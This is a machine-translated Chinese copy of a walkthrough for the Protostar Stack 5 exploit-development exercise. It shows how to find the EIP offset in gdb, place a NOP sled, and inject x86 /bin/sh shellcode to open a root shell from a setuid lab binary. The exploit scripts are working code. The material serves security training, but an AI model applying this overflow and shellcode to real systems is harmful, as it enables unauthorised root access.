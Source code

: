 # [ExpDev]漏洞利用练习|原恒星|堆栈 5

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6?source=collection_archive---------0----------------------->

![](img/b89de691df52e7b88b75c3cec56a545c.png)

# 堆栈 5(堆栈缓冲区溢出)

这是一个标准的缓冲区溢出漏洞，我们将使用外壳代码来获取第一个根外壳。

*   链接:[https://exploit-exercises.lains.space/protostar/stack5/](https://exploit-exercises.lains.space/protostar/stack5/)

![](img/031adee3b4a8dabff8766af074ca0169.png)

## 注意事项

*   `gets(buffer);`:易受攻击的函数。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲区长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。

# 剥削

这个程序非常简单，它只接受我们提供的任何输入。

## 寻找偏移

让我们创建一个 python 脚本来查找可以控制 EIP 的偏移值:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exp.py > /tmp/stack5/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack5**
  Reading symbols from /opt/protostar/bin/stack5...done.
**(gdb) break * main**
  Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
**(gdb) set disassembly-flavor intel**
**(gdb) disassemble main**
  Dump of assembler code for function main:
  0x080483c4 <main+0>: push   ebp
  0x080483c5 <main+1>: mov    ebp,esp
  0x080483c7 <main+3>: and    esp,0xfffffff0
  0x080483ca <main+6>: sub    esp,0x50
  0x080483cd <main+9>: lea    eax,[esp+0x10]
  0x080483d1 <main+13>: mov    DWORD PTR [esp],eax
  0x080483d4 <main+16>: call   0x80482e8 <gets@plt>
  0x080483d9 <main+21>: leave  
  0x080483da <main+22>: ret    
  End of assembler dump.
**(gdb) r < /tmp/stack5/exploit**
  Starting program: /opt/protostar/bin/stack5 < /tmp/stack5/exploit Breakpoint 1, main (argc=1, argv=0xbffff854) at stack5/stack5.c:7
  7 stack5/stack5.c: No such file or directory. in stack5/stack5.c
**(gdb) continue**
  Continuing. Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? () 
```

“0x43”和“0x44”在 ASCII 表示中分别是“C”和“D”。因此，偏移量为 76 (= 70 + "BBBBCC ")。

```
**...
(gdb) continue**
  Continuing. Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? () **(gdb) info registers**
  eax            0xbffff760 -1073744032
  ecx            0xbffff760 -1073744032
  edx            0xb7fd9334 -1208118476
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7b0 0xbffff7b0
  ebp            0x43434242 0x43434242
  esi            0x0 0
  edi            0x0 0
  **eip            0x44444343 0x44444343  <---- EIP Overflowed**
  eflags          0x210246 [ PF ZF IF RF ID ]
```

此外，现在我们可以在崩溃时控制 EIP，这意味着我们可以跳转到堆栈中的任何位置。

## 代码执行

不同于之前的练习，没有我们可以跳转到的制胜语句。相反，我们可以在堆栈上引入自己的外壳代码并执行它。

但是要记住的一点是，栈地址会根据`PWD=`环境变量而改变。为了避免这种情况，我们可以简单地在 sleds 代码前添加几个 NOP(无操作)sleds (= \x90)，并将我们的 EIP 指向 NOP 的中间。我们可以使用以下 PoC 脚本来确认这一点:

```
**[exploit.py]**#!/usr/bin/pythonimport struct**### Offset**
padding = "A" * 76**### EIP --> Middle of Random NOPs**
eip = struct.pack("I", 0xbffff7cc) **### Adding NOP Sleds**
nop = "\x90" * 80**### Adding int3 (= Breakpoint)**
payload = "\xCC" * 4print padding + eip + nop + payload
```

![](img/8f286cbfce33ac071479f3212d8bfd5a.png)

正如预期的那样，一旦我们的 EIP 落在 nop 的中间，它就继续使用我们的 int3 (\xCC)断点击中`0xbffff801`。

## 外壳代码

我们现在可以更新我们的`exploit.py`脚本，添加一个 shell 代码，作为“根”用户获得一个交互式 shell。(所有程序都以 setuid 位作为 root)

![](img/47c7c86ea02bbdbac2943966214c292e.png)

```
**[exploit.py]**#!/usr/bin/pythonimport structpadding = "A" * 76eip = struct.pack("I", 0xbffff7cc)nop = "\x90" * 80**###** [**http://shell-storm.org/shellcode/files/shellcode-811.php**](http://shell-storm.org/shellcode/files/shellcode-811.php) **### Used a shellcode (x86 '/bin/sh') found in the Internet**shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73" +
             "\x68\x68\x2f\x62\x69\x6e\x89" +
             "\xe3\x89\xc1\x89\xc2\xb0\x0b" +
             "\xcd\x80\x31\xc0\x40\xcd\x80")print padding + eip + nop + shellcode
```

当我们运行有效载荷时，

```
$ python exploit.py > /tmp/stack5/exploit
$ cat /tmp/stack5/exploit | ./stack5
```

它实际上什么也不做。是因为`/bin/sh` shell 期望 stdin 然而，当我们执行我们利用时没有标准输入，所以它立即关闭。

我们可以做的一个技巧是，我们可以在利用脚本中添加`cat`命令，让它在运行时等待 stdin:

```
$ (python exploit.py; cat) | /opt/protostar/bin/stack5
```

![](img/5cd7280f1959d2251167a2d7ec6c8f9d.png)

当我们运行它时，我们可以使用 root 权限成功打开一个`/bin/sh` shell。感谢阅读！

## 下一个挑战:

*   [**栈 6**](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) —基于栈的 BOF: ROP (ret2libc)

![](img/d890d1dc0707d214841d98ff16b63472.png)